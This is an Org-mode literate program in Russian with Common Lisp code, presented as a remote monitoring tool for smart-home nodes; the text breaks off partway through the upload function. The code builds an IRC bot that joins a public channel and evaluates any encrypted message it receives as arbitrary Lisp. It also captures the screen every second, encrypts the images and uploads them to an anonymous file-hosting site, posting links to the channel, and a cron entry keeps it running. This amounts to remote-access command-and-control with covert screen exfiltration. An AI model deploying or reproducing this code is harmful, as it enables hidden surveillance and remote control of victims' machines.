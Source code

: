 #+STARTUP: showall indent hidestars

#+BEGIN_SRC lisp
  (sb-posix:get-pid)
  ,*/1 * * * * export DISPLAY=:0 && cd ~/quicklisp/ && flock -xn ./srv.lock sbcl --load ./srv.lisp > ./log.txt
#+END_SRC

* Intro

Это внешняя система мониторинга, предназначеная для наблюдения за работой
узла сети. Узел сети может быть не только desktop-системой, но и сервером
умного дома и осуществлять управление его компонентами: включать и
выключать нагрузку, отправлять команды роботу пылесосу, и.т.п.

К сожалению, некоторые проприетарные компоненты автоматизации, такие как
3D-принтер, могут управляться только через GUI своей управляющей
программы. Поэтому для того чтобы удаленно управлять ими необходимо
анализировать скриншоты экрана и осуществлять операции виртуальной мышью
и клавиатурой над управляющей программой.

Поэтому мы должны отслеживать изменения на экране, отпралять их в
коммуникационный канал (естественно не в открытом виде) и иметь
возможность проанализировать их удаленно, а потом отослать команду,
которая будет выполнена.

Наша основная задача - сократить количество передаваемых данных, потому
что узлов сети может быть множество и не все из них имеют быстрые каналы
передачи.

* Irc

Работа с IRC состоит из нескольких этапов
- Подключение
- Запуск цикла чтения сообщений (в отдельном потоке)
- Установка хука, чтобы перехватить сообщения-команды
- Подключение к каналу и отправка первого сообщения

#+NAME: irc
#+BEGIN_SRC lisp :noweb yes
  <<irc_conn>>
  <<irc_loop>>
  <<irc_hook>>
  <<irc_join>>
#+END_SRC

** Connect

Начнем с подключения к IRC - нашему коммуникационному каналу.

В случае если по какой-то причине мы не можем подключиться - то вызываем
процедуру подключения хвосторекурсивно каждые три секунды. Пока
подключиться не удастся мы все равно ничего не можем сделать.

#+NAME: irc_conn
#+BEGIN_SRC lisp :noweb yes
  (defparameter *irc-sess* (get-universal-time))
  (defparameter *irc-user* (format nil "b~A" *irc-sess*))
  (defparameter *irc-serv* "irc.freenode.org")
  (defparameter *irc-chan* "#nvrtlessfndout")
  (defparameter *irc-lock* (bt:make-lock "irc-lock"))

  (defun try-irc-conn ()
    (let ((conn (handler-case
                    (cl-irc:connect :nickname *irc-user* :server *irc-serv*)
                  (USOCKET:NS-TRY-AGAIN-CONDITION () nil))))
      (if conn
          conn
          (progn
            (sleep 3)
            (try-irc-conn)))))

  (defparameter *irc-conn* (try-irc-conn))
#+END_SRC

** Read loop

#+NAME: irc_loop
#+BEGIN_SRC lisp :noweb yes
  (defun irc-loop ()
    (cl-irc:read-message-loop *irc-conn*))

  (defparameter *irc-thread*
    (bt:make-thread (lambda ()
                      (irc-loop))
                    :name "irc-thread"
                    :initial-bindings
                    `((*standard-output* . ,*standard-output*)
                      (*irc-user* . ,*irc-user*)
                      (*irc-serv* . ,*irc-serv*)
                      (*irc-chan* . ,*irc-chan*)
                      (*irc-conn* . ,*irc-conn*))))
#+END_SRC

** Command hook

Функция, которая читает сообщения из канала должна быть запущена в
отдельном потоке. При получении команды она вызовет хук, который должен
исполнить эту команду (command processor).

#+NAME: irc_hook
#+BEGIN_SRC lisp :noweb yes
  ;; irc_cmd_proc
  <<irc_cmd_proc>>

  (defun irc-msg-hook (param)
    "MUST return T for stop hooks processing"
    (funcall *irc-cmd* param)
    t)
#+END_SRC

У сообщения есть следующие поля:
- CL-IRC:SOURCE
- CL-IRC:USER
- CL-IRC:HOST
- CL-IRC:COMMAND
- CL-IRC:ARGUMENTS
- CL-IRC:CONNECTION
- CL-IRC:RECEIVED-TIME
- CL-IRC:RAW-MESSAGE-STRING

Из них нас интересует собственно команда размещенная в ~ARGUMENTS~ и имя
пользователя из ~SOURCE~. Имя пользователя будет содержать
инициализационный вектор для регистра с линейной обратной связью, который
даст нам гамму для расшифровки команды.

#+NAME: irc_cmd_proc
#+BEGIN_SRC lisp
  (defun seq-xor (len seq-1 seq-2)
    (let ((result (make-array len :element-type '(unsigned-byte 8))))
      (do ((idx 0 (incf idx)))
          ((= idx len))
        (setf (aref result idx)
              (logxor (aref seq-1 idx)
                      (aref seq-2 idx))))
      result))

  (defun encrypt (oct seed)
    (let* ((len (length oct))
           (gen (prbs:byte-gen 31 :seed seed))
           (gam (funcall gen len))
           (enc (seq-xor len oct gam)))
      (base64:usb8-array-to-base64-string enc)))

  (defun decrypt (base64 seed)
    (let* ((oct (base64:base64-string-to-usb8-array base64))
           (gen (prbs:byte-gen 31 :seed seed))
           (len (length oct))
           (gam (funcall gen len)))
      (seq-xor len oct gam)))

  (defmacro bprint (var)
    `(subseq (with-output-to-string (*standard-output*)
               (pprint ,var)) 1))

  (defparameter *irc-cmd*
    (lambda (param)
      (block irc-cmd-block
        (let* ((msg  (cadr (CL-IRC:ARGUMENTS param)))
               (src  (CL-IRC:SOURCE param))
               (oct  (decrypt msg *irc-sess*))
               (str  (handler-case
                         (flex:octets-to-string oct :external-format :utf-8)
                       (FLEXI-STREAMS:EXTERNAL-FORMAT-ENCODING-ERROR () nil))))
          (format t "~%::COMMAND::~A::" msg)
          (format t "~%::SOURCE::~A::" src)
          (format t "~%::str::~A::" str)
          (let ((result (handler-case (bprint (eval (read-from-string  str)))
                          (TYPE-ERROR () (return-from irc-cmd-block nil)))))
            (bt:with-lock-held (*irc-lock*)
              (cl-irc:privmsg *irc-conn* *irc-chan*
                              (format nil "=> ~A" result)))
            (format t "~%::eval::~A::" result)
            (finish-output))))))

  ;; (encrypt
  ;;  (flex:string-to-octets
  ;;   "(defun snd () (bt:with-lock-held (*irc-lock*) (cl-irc:privmsg *irc-conn* *irc-chan* (format nil \"nfo:error\"))))"
  ;;   :external-format :utf-8)
  ;;  3783992823)

  ;; (encrypt
  ;;  (flex:string-to-octets
  ;;   ;; "(unschedule-timer *shot-timer*)"
  ;;   "(schedule-timer *shot-timer* 1 :repeat-interval 1)"
  ;;   :external-format :utf-8)
  ;;  3783995947)

  ;; (encrypt
  ;;  (flex:string-to-octets
  ;;   "(progn (quit))"
  ;;   :external-format :utf-8)
  ;;  3783992823)

  ;; (flex:octets-to-string
  ;;  (decrypt
  ;;   "62Y5gGs3D5BAEdec7Ls=" 3783992823)
  ;;  :external-format :utf-8)
#+END_SRC

** Join to channel

После того как мы запустили цикл чтения сообщений можно подключаться к
каналу и отправить сообщение о присутствии.

#+NAME: irc_join
#+BEGIN_SRC lisp :noweb yes
  (defun irc-join ()
    (cl-irc:add-hook *irc-conn* 'cl-irc:IRC-PRIVMSG-MESSAGE #'irc-msg-hook)
    (sleep 1)
    (bt:with-lock-held (*irc-lock*)
      (cl-irc:join *irc-conn* *irc-chan*))
    (sleep 1)
    (bt:with-lock-held (*irc-lock*)
      (cl-irc:privmsg
       ,*irc-conn* *irc-chan*
       (format nil "nfo:start"))))

  (irc-join)
#+END_SRC

* Snaphot function

Сама функция скриншота должна сделать скриншот и обработать его, а потом
реинициализировать свой таймер

#+NAME: shot
#+BEGIN_SRC lisp :noweb yes
  <<x_display>>
  <<pack_image>>
  <<unpack_image>>
  <<upload>>

  (defun save (frmt-filename-str dims image)
    (block save-block
      (let* ((height     (car  dims))
             (width      (cadr dims))
             (png        (get-png-obj width height image :grayscale))
             (png-seq    (get-png-sequence png))
             (base64     (encrypt png-seq *irc-sess*))
             (decoded    (decrypt base64 *irc-sess*))
             (filename   (format nil frmt-filename-str
                                 (format nil "~A" (get-universal-time))))
             (upload-ret (handler-case
                             (cl-json:decode-json-from-string
                              (anon-file-upload filename base64))
                           (JSON:JSON-SYNTAX-ERROR ()
                             (return-from save-block nil))))
             (link       (if (cdr (assoc :status upload-ret))
                             (subseq (cdadr (cadadr (assoc :data upload-ret))) 20)
                             nil))
             ;; (full-filename (format nil "FILE_~A_~A"
             ;;                        *irc-sess*
             ;;                        filename))
             )
        (cl-irc:privmsg *irc-conn* *irc-chan*
                        (if link
                            link
                            upload-ret))
        ;; (with-open-file (file-stream full-filename
        ;;                              :direction :output
        ;;                              :if-exists :supersede
        ;;                              :if-does-not-exist :create
        ;;                              :element-type '(unsigned-byte 8))
        ;;   (write-sequence decoded file-stream))
        )))

  (defparameter *shot-timer*
    (make-timer #'(lambda ()
                    (shot))
                :name "shot" :thread t))

  ;; (defparameter *stop* nil)

  (let ((prev)
        (cnt 9999))
    (defun shot ()
      (let* ((snap (pack-image (x-snapshot)))
             (dims (array-dimensions snap)))
        (if (> cnt 4)
            (progn
              (save "~A" dims snap)
              (setf prev snap)
              (setf cnt 0))
            ;; else
            (let ((xored (make-array dims :element-type '(unsigned-byte 8))))
              (do ((qy 0 (incf qy)))
                  ((= qy (car dims)))
                (declare (type fixnum qy))
                (do ((qx 0 (incf qx)))
                    ((= qx (cadr dims)))
                  (declare (type fixnum qx))
                  (setf (aref xored qy qx)
                        (logxor (aref prev qy qx)
                                (aref snap qy qx)))))
              (save (format nil "~~A_~A" cnt) dims xored)
              (setf prev snap)
              (incf cnt))))))

  (schedule-timer *shot-timer* 1 :repeat-interval 1)



  (defun save-png (width height pathname-str image
                   &optional (color-type :truecolor-alpha))
    (let* ((png (make-instance 'zpng:png :width width :height height
                               :color-type color-type))
           (vector (make-array ;; displaced vector - need copy for save
                    (* height width (zpng:samples-per-pixel png))
                    :displaced-to image :element-type '(unsigned-byte 8))))
      ;; Тут применен потенциально опасный трюк, когда мы создаем
      ;; объект PNG без данных, а потом добавляем в него данные,
      ;; используя неэкспортируемый writer.
      ;; Это нужно чтобы получить третью размерность массива,
      ;; который мы хотим передать как данные и при этом
      ;; избежать создания для этого временного объекта
      (setf (zpng::%image-data png) (copy-seq vector))
      (zpng:write-png png pathname-str)))


  (let* (;; (fname-in #P"~/Downloads/3784024465")
         ;; (enc  (alexandria:read-file-into-string fname-in :external-format :utf-8))
         ;; (dec  (decrypt enc *irc-sess*))
         (dec (alexandria:read-file-into-byte-vector #P"~/Documents/ab.png"))
         (png (let ((png-read::*png-file* "fake-file"))
                 (flex:with-input-from-sequence (stream dec)
                   (png-read:read-png-datastream stream))))
         (image-data (png-read:image-data png))
         ;; reverse
         (dims   (subseq (array-dimensions image-data) 0 2))
         (height (cadr dims))
         (width  (car  dims))
         (image ;; меняем размерности X и Y местами
          (let ((result (make-array (list height width 4)
                                    :element-type '(unsigned-byte 8))))
            (do ((y 0 (incf y)))
                ((= y height))
              (do ((x 0 (incf x)))
                  ((= x width))
                (setf (aref result y x 0)
                      (aref image-data x y 0)
                      (aref result y x 1)
                      (aref image-data x y 1)
                      (aref result y x 1)
                      (aref image-data x y 1)))) ;; only red channel
            result))
         ;; packing
         (pak (pack-image image))
         (pak-dims (array-dimensions pak))
         (new-width (cadr pak-dims))
         (pathname-str "~/Documents/ab-pack.png")
         )
    (let* ((png (make-instance 'zpng:png
                               :width new-width
                               :height height
                               :color-type :grayscale))
           (vector (make-array ;; displaced vector - need copy for save
                    (* height new-width (zpng:samples-per-pixel png))
                    :displaced-to pak :element-type '(unsigned-byte 8))))
      ;; Тут применен потенциально опасный трюк, когда мы создаем
      ;; объект PNG без данных, а потом добавляем в него данные,
      ;; используя неэкспортируемый writer.
      ;; Это нужно чтобы получить третью размерность массива,
      ;; который мы хотим передать как данные и при этом
      ;; избежать создания для этого временного объекта
      (setf (zpng::%image-data png) (copy-seq vector))
      (zpng:write-png png pathname-str))
    )

         ;; (dims (array-dimensions pak))

         ;; (image-data2 ;; to bit
         ;;  (let ((result (make-array dims :element-type '(unsigned-byte 8))))
         ;;    (do ((y 0 (incf y)))
         ;;        ((= y height))
         ;;      (do ((x 0 (incf x)))
         ;;          ((= x width))
         ;;        (setf (aref result y x)
         ;;              (aref image-data x y))))
         ;;    result))

         ;; (height (car dims))
         ;; (width  (cadr dims))
         ;; (image ;; меняем размерности X и Y местами
         ;;  (let ((result (make-array dims :element-type '(unsigned-byte 8))))
         ;;    (do ((y 0 (incf y)))
         ;;        ((= y height))
         ;;      (do ((x 0 (incf x)))
         ;;          ((= x width))
         ;;        (setf (aref result y x)
         ;;              (aref image-data x y))))
         ;;    result))
         ;; (pathname-str #P"~/Downloads/test1.png")
         ;; (result
         ;;  (unpack-image image))
         ;;  ;; image)
         ;; (new-width
         ;;  ;; width)
         ;;  (* 8 width))
         )
    ;; (let* ((png (make-instance 'zpng:png
    ;;                            :width width
    ;;                            :height height
    ;;                            :color-type :grayscale))
    ;;        (vector (make-array ;; displaced vector - need copy for save
    ;;                 (* height new-width (zpng:samples-per-pixel png))
    ;;                 :displaced-to result :element-type '(unsigned-byte 8))))
    ;;   ;; Тут применен потенциально опасный трюк, когда мы создаем
    ;;   ;; объект PNG без данных, а потом добавляем в него данные,
    ;;   ;; используя неэкспортируемый writer.
    ;;   ;; Это нужно чтобы получить третью размерность массива,
    ;;   ;; который мы хотим передать как данные и при этом
    ;;   ;; избежать создания для этого временного объекта
    ;;   (setf (zpng::%image-data png) (copy-seq vector))
    ;;   (zpng:write-png png pathname-str))
    ;; (print image-data)
    ;; (png-read:colour-type png)
    rev-dims
    ;; height
    ;; (print pak)
    ;; (print dims)
    ;; image
    )


#+END_SRC

** X-Display

Этот раздел описывает библиотечные функции, которые необходимы для
получения снимков экрана

Работа с экраном через ~xlib~:
- Получение размеров экрана
- Получение снимков экрана

После получения размеров экрана мы сохраняем их в глобальные переменные
вида ~default-*~, чтобы после работать с ними напрямую - за это отвечает
вызов функции ~init-defaults~.

При формировании скришота мы перекодируем его функцией
~raw-image->png~. При оптимизации эту перекодировку следует удалить,
чтобы ускорить работу, но пока нам требуется отлаживаемость а не
скорость.

#+NAME: x_display
#+BEGIN_SRC lisp :padline no
  (defmacro with-display (host (display screen root-window) &body body)
    `(let* ((,display (xlib:open-display ,host))
            (,screen (first (xlib:display-roots ,display)))
            (,root-window (xlib:screen-root ,screen)))
       (unwind-protect (progn ,@body)
         (xlib:close-display ,display))))

  (defmacro with-default-display ((display &key (force nil)) &body body)
    `(let ((,display (xlib:open-default-display)))
       (unwind-protect
            (unwind-protect
                 ,@body
              (when ,force
                (xlib:display-force-output ,display)))
         (xlib:close-display ,display))))

  (defmacro with-default-display-force ((display) &body body)
    `(with-default-display (,display :force t) ,@body))

  (defmacro with-default-screen ((screen) &body body)
    (let ((display (gensym)))
      `(with-default-display (,display)
         (let ((,screen (xlib:display-default-screen ,display)))
           ,@body))))

  (defmacro with-default-window ((window) &body body)
    (let ((screen (gensym)))
      `(with-default-screen (,screen)
         (let ((,window (xlib:screen-root ,screen)))
           ,@body))))

  (defun x-size ()
    (with-default-screen (s)
      (values
       (xlib:screen-width s)
       (xlib:screen-height s))))

  (defparameter *default-x* 0)
  (defparameter *default-y* 0)
  (defparameter *default-width* 800)
  (defparameter *default-height* 600)

  (defun init-defaults ()
    (multiple-value-bind (width height)
        (x-size)
      (setf *default-width* width
            ,*default-height* height
            ,*default-x* 0
            ,*default-y* 0)))

  (init-defaults)

  (defun raw-image->png (data width height)
    (let* ((png (make-instance 'zpng:png :width width :height height
                               :color-type :truecolor-alpha
                               :image-data data))
           (data (zpng:data-array png)))
      (dotimes (y height)
        (dotimes (x width)
          ;; BGR -> RGB, ref code: https://goo.gl/slubfW
          ;; diffs between RGB and BGR: https://goo.gl/si1Ft5
          (rotatef (aref data y x 0) (aref data y x 2))
          (setf (aref data y x 3) 255)))
      png))

  (defun x-snapshot (&key (x *default-x*) (y *default-y*)
                       (width  *default-width*) (height *default-height*)
                       path)
    ;; "Return RGB data array (The dimensions correspond to the height, width,
    ;; and pixel components, see comments in x-snapsearch for more details),
    ;; or write to file (PNG only), depend on if you provide the path keyword"
    (with-default-window (w)
      (let ((image
             (raw-image->png
              (xlib:get-raw-image w :x x :y y
                                  :width width :height height
                                  :format :z-pixmap)
              width height)
            ))
        (if path
            (let* ((ext (pathname-type path))
                   (path
                    (if ext
                        path
                        (concatenate 'string path ".png")))
                   (png? (or (null ext) (equal ext "png"))))
              (cond
                (png? (zpng:write-png image path))
                (t (error "Only PNG file is supported"))))
            (zpng:data-array image)))))

  ;; (x-snapshot :path "x-snapshot-true-color.png")
#+END_SRC

** Packing image

Нам нужна функция, для быстрой упаковки изображения. Она не тривиальна.

Мы берем полноцветное изображение и используем два вложенных цикла,
проходя по ~Y~ и ~X~ чтобы обработать каждую точку. После обработки одна
точка должна занимать только один бит.

Мы также должны упаковать по восемь точек в байт, но если размер
изображения в точках не кратен байту, то нужно дополнить недостающие
точки. За это отвечате внутренний макрос ~byte-finiser~, который
вызывается по мере накопления значений в байте и в конце обработки
строки, если это необходимо.

#+NAME: pack_image
#+BEGIN_SRC lisp
  (defun pack-image (image)
    (declare (optimize (speed 3) (safety 0)))
    (let* ((dims (array-dimensions image))
           (height (car dims))
           (width (cadr dims))
           (new-width (ash (logand (+ width 7) (lognot 7)) -3))
           (need-finisher (not (equal new-width (ash width -3))))
           (result (make-array (list height new-width)
                               :element-type '(unsigned-byte 8)))
           (bp 8)
           (acc 0))
      (declare (type (unsigned-byte 8) acc)
               (type fixnum bp)
               (type fixnum width)
               (type fixnum new-width)
               (type fixnum height))
      (macrolet ((byte-finisher (acc qy qx bp)
                   `(progn
                      ;; (format t "~8,'0B(~2,'0X)" ,acc ,acc)
                      (setf (aref result ,qy (ash ,qx -3)) ,acc)
                      (setf ,acc 0)
                      (setf ,bp 8))))
        (do ((qy 0 (incf qy)))
            ((= qy height))
          (declare (type fixnum qy))
          (do ((qx 0 (incf qx)))
              ((= qx width) (when need-finisher
                              (byte-finisher acc qy qx bp)))
            (declare (type fixnum qx))
            (let* ((avg (floor (+ (aref image qy qx 0)
                                  (aref image qy qx 1)
                                  (aref image qy qx 2))
                               3))
                   (pnt (ash avg -7)))
              (declare (type fixnum avg))
              (declare (type fixnum pnt))
              (decf bp)
              (setf acc (logior acc (ash pnt bp)))
              (when (= bp 0)
                (byte-finisher acc qy qx bp))))
          ;; (format t "~%")
          ))
      result))

  ;; (disassemble 'pack-image)

  ;; TEST: pack-image
  ;; (time
  ;;  (let* ((image (pack-image (x-snapshot)))
  ;;         (dims (array-dimensions image)))
  ;;    (save-png (cadr dims)
  ;;              (car dims)
  ;;              (format nil "~A" (gensym "FILE"))
  ;;              image
  ;;              :grayscale)))
#+END_SRC

** Save and Load

Для целей отладки нам нужно уметь сохранять и загружать png-изображения

#+NAME: save_and_load_png
#+BEGIN_SRC lisp
  (defun get-png-obj (width height image &optional (color-type :truecolor-alpha))
    (let* ((png (make-instance 'zpng:png :width width :height height
                               :color-type color-type))
           (vector (make-array ;; displaced vector - need copy for save
                    (* height width (zpng:samples-per-pixel png))
                    :displaced-to image :element-type '(unsigned-byte 8))))
      ;; Тут применен потенциально опасный трюк, когда мы создаем
      ;; объект PNG без данных, а потом добавляем в него данные,
      ;; используя неэкспортируемый writer.
      ;; Это нужно чтобы получить третью размерность массива,
      ;; который мы хотим передать как данные и при этом
      ;; избежать создания для этого временного объекта
      (setf (zpng::%image-data png) (copy-seq vector))
      png))

  (defun get-png-sequence (png)
    (flex:with-output-to-sequence (stream)
      (zpng:write-png-stream png stream)))

  ;; DEPRECATED, use explicit saving png-sequence by with-open-file
  ;; (defun save-png (pathname-str png)
  ;;   (zpng:write-png png pathname-str))

  (defun load-png (pathname-str)
    "Возвращает массив size-X столбцов по size-Y точек,
       где столбцы идут слева-направо, а точки в них - сверху-вниз
       ----
       В zpng есть указание на возможные варианты COLOR:
       ----
             (defmethod samples-per-pixel (png)
               (ecase (color-type png)
                 (:grayscale 1)
                 (:truecolor 3)
                 (:indexed-color 1) ;; НЕ ПОДДЕРЖИВАЕТСЯ
                 (:grayscale-alpha 2)
                 (:truecolor-alpha 4)))
      "
    (let* ((png (png-read:read-png-file pathname-str))
           (image-data (png-read:image-data png))
           (color (png-read:colour-type png))
           (dims (cond ((or (equal color :truecolor-alpha)
                            (equal color :truecolor))
                        (list (array-dimension image-data 1)
                              (array-dimension image-data 0)
                              (array-dimension image-data 2)))
                       ((or (equal color :grayscale)
                            (equal color :greyscale))
                        (list (array-dimension image-data 1)
                              (array-dimension image-data 0)))
                       (t (error 'unk-png-color-type :color color))))
           (result ;; меняем размерности X и Y местами
            (make-array dims :element-type '(unsigned-byte 8))))
      ;; (dbg "~% new-arr ~A "(array-dimensions result))
      ;; ширина, высота, цвет => высота, ширина, цвет
      (macrolet ((cycle (&body body)
                   `(do ((y 0 (incf y)))
                        ((= y (array-dimension result 0)))
                      (do ((x 0 (incf x)))
                          ((= x (array-dimension result 1)))
                        ,@body))))
        (cond ((or (equal color :truecolor-alpha)
                   (equal color :truecolor))
               (cycle (do ((z 0 (incf z)))
                          ((= z (array-dimension result 2)))
                        (setf (aref result y x z)
                              (aref image-data x y z)))))
              ((or (equal color :grayscale)
                   (equal color :greyscale))
               (cycle (setf (aref result y x)
                            (aref image-data x y))))
              (t (error 'unk-png-color-type :color color)))
        result)))
#+END_SRC

** Bit-vector operations

Для целей отладки определим операции кодирования в битовый вектор и
обратно

#+NAME: bit_vector
#+BEGIN_SRC lisp
  (defun bit-vector->integer (bit-vector)
    "Create a positive integer from a bit-vector."
    (reduce #'(lambda (first-bit second-bit)
                (+ (* first-bit 2) second-bit))
            bit-vector))

  (defun integer->bit-vector (integer)
    "Create a bit-vector from a positive integer."
    (labels ((integer->bit-list (int &optional accum)
               (cond ((> int 0)
                      (multiple-value-bind (i r) (truncate int 2)
                        (integer->bit-list i (push r accum))))
                     ((null accum) (push 0 accum))
                     (t accum))))
      (coerce (integer->bit-list integer) 'bit-vector)))
#+END_SRC

** Binarization

Получение черно-белого изображения или в градациях серого из
полноцветного.

Здесь остается пространство для оптимизаций путем применения
SIMD-операций.

#+NAME: binarization
#+BEGIN_SRC lisp
  (defun binarization (image &optional threshold)
    (let* ((dims (array-dimensions image))
           (new-dims (cond ((equal 3 (length dims))  (butlast dims))
                           ((equal 2 (length dims))  dims)
                           (t (error 'binarization-error))))
           (result (make-array new-dims :element-type '(unsigned-byte 8))))
      (macrolet ((cycle (&body body)
                   `(do ((y 0 (incf y)))
                        ((= y (array-dimension image 0)))
                      (do ((x 0 (incf x)))
                          ((= x (array-dimension image 1)))
                        ,@body))))
        (cond ((equal 3 (length dims))
               (cycle (do ((z 0 (incf z)))
                          ((= z (array-dimension image 2)))
                        (let ((avg (floor (+ (aref image y x 0)
                                             (aref image y x 1)
                                             (aref image y x 2))
                                          3)))
                          (when threshold
                            (if (< threshold avg)
                                (setf avg 255)
                                (setf avg 0)))
                          (setf (aref result y x) avg)))))
              ((equal 2 (length dims))
               (cycle (let ((avg (aref image y x)))
                        (when threshold
                          (if (< threshold avg)
                              (setf avg 255)
                              (setf avg 0)))
                        (setf (aref result y x) avg))))
              (t (error 'binarization-error))))
      result))

  ;; TEST: binarize and save screenshot
  ;; (let* ((to   "x-snapshot-binarize.png")
  ;;        (image-data (binarization (x-snapshot) 127))) ;; NEW: threshold!
  ;;   (destructuring-bind (height width) ;; NB: no depth!
  ;;       (array-dimensions image-data)
  ;;     (save-png width height to image-data :grayscale))) ;; NB: grayscale!


  ;; TEST: binarize get png and save
  ;; (print
  ;;  (let* ((image-data (binarization (x-snapshot) 127))) ;; NEW: threshold!
  ;;    (destructuring-bind (height width) ;; NB: no depth!
  ;;        (array-dimensions image-data)
  ;;      (let ((seq (get-png width height image-data :grayscale)))
  ;;        (with-open-file (file-stream "tee.png"
  ;;                                     :direction :output
  ;;                                     :if-exists :supersede
  ;;                                     :if-does-not-exist :create
  ;;                                     :element-type '(unsigned-byte 8))
  ;;          (write-sequence seq file-stream))))))
#+END_SRC

** Bit-image

Упаковка бинаризованного черно-белого изображения в битовый массив

#+NAME: make_bit_image
#+BEGIN_SRC lisp
  (defun make-bit-image (image-data)
    (destructuring-bind (height width &optional colors)
        (array-dimensions image-data)
      ;; функция может работать только с бинарными изобажениями
      (assert (null colors))
      (let* ((new-width (+ (logior width 7) 1))
             (bit-array (make-array (list height new-width)
                                    :element-type 'bit
                                    :initial-element 1)))
        (do ((qy 0 (incf qy)))
            ((= qy height))
          (do ((qx 0 (incf qx)))
              ((= qx width))
            ;; если цвет пикселя не белый, считаем,
            ;; что это не фон и заносим в битовый массив 1
            (if (equal (aref image-data qy qx) 255)
                (setf (bit bit-array qy qx) 1)
                (setf (bit bit-array qy qx) 0))))
        bit-array)))

  ;; TEST: make-bit-image
  ;; (print
  ;;  (make-bit-image
  ;;   (binarization (x-snapshot :x 0 :y 0 :width 30 :height 30) 127)))
#+END_SRC

** Unpack image

#+NAME: unpack_image
#+BEGIN_SRC lisp
  (defun unpack-image (image)
    (declare (optimize (speed 3) (safety 0)))
    (let* ((dims (array-dimensions image))
           (height (car dims))
           (width (cadr dims))
           (new-width (ash width 3))
           (result (make-array (list height new-width)
                               :element-type '(unsigned-byte 8))))
      (declare (type fixnum width)
               (type fixnum new-width)
               (type fixnum height))
      (do ((qy 0 (incf qy)))
          ((= qy height))
        (declare (type fixnum qy))
        (do ((qx 0 (incf qx)))
            ((= qx width))
          (declare (type fixnum qx))
          (let ((acc (aref image qy qx)))
            (declare (type (unsigned-byte 8) acc))
            ;; (format t "~8,'0B" acc)
            (do ((out 0 (incf out))
                 (in  7 (decf in)))
                ((= 8 out))
              (declare (type fixnum out in))
              (unless (= 0 (logand acc (ash 1 in)))
                (setf (aref result qy (logior (ash qx 3) out))
                      255)))))
        ;; (format t "~%")
        )
      result))

  ;; TEST
  ;; (print
  ;;  (unpack-image
  ;;   (pack-image
  ;;    (x-snapshot :width 31 :height 23))))

  ;; TEST
  ;; (time
  ;;  (let* ((image  (load-png "FILE1088"))
  ;;         (unpack (unpack-image image))
  ;;         (dims (array-dimensions unpack)))
  ;;    (save-png (cadr dims)
  ;;              (car dims)
  ;;              (format nil "~A" (gensym "FILE"))
  ;;              unpack
  ;;              :grayscale)))
#+END_SRC

** Upload

#+NAME: upload
#+BEGIN_SRC lisp
  ;; (setf drakma:*header-stream* *standard-output*)

  (defparameter *user-agent* "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0")

  (defparameter *additional-headers*
    `(("Accept" . "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8")
      ("Accept-Language" . "ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3")
      ("Accept-Charset" . "utf-8")))

  (defun get-csrf (text)
    (loop :for str :in (split-sequence:split-sequence #\Newline text)
       :do (multiple-value-bind (match-p result)
               (ppcre:scan-to-strings "(?m)app_csrf_token\\s+=\\s+\"(.*)\";" str)
             (when match-p (return (aref result 0))))))

  (defun get-cookies-alist (cookie-jar)
    "Получаем alist с печеньками из cookie-jar"
    (loop :for cookie :in (drakma:cookie-jar-cookies cookie-jar) :append
         (list (cons (drakma:cookie-name cookie) (drakma:cookie-value cookie)))))

  (defun anon-file-upload (filename content)
    (let ((cookie-jar (make-instance 'drakma:cookie-jar)))
      ;; load mainpage for cookies, headers and csrf
      (multiple-value-bind (body-or-stream status-code headers
                                           uri stream must-close reason-phrase)
          (drakma:http-request "https://anonfile.com/"
                               :user-agent *user-agent*
                               :redirect 10
                               :force-binary t
                               :cookie-jar cookie-jar
                               :additional-headers *additional-headers*)
        (let* ((text (flex:octets-to-string body-or-stream :external-format :utf-8))
               (csrf (get-csrf text))
               (boundary "---------------------------196955623314664815241571979859")
               (type-header (format nil "multipart/form-data; boundary=~A" boundary))
               (new-headers `(("Accept" . "application/json")
                              ("Accept-Language" . "en-US,en;q=0.5")
                              ("Cache-Control" . "no-cache")
                              ("X-Requested-With" . "XMLHttpRequest")
                              ("X-CSRF-Token" . ,csrf)
                              ("Origin" . "https://anonfile.com")
                              ("Referer" . "https://anonfile.com/")
                              ("Content-Type" . ,type-header)
                              ("TE" . "Trailers"))))
          (multiple-value-bind (body-or-stream status-code headers
                                               uri stream must-close reason-phrase)
              (drakma:http-request
               "https://api.anonfile.com/upload"
               ;; "http://localhost:9993/upload"
               :user-agent *user-agent*
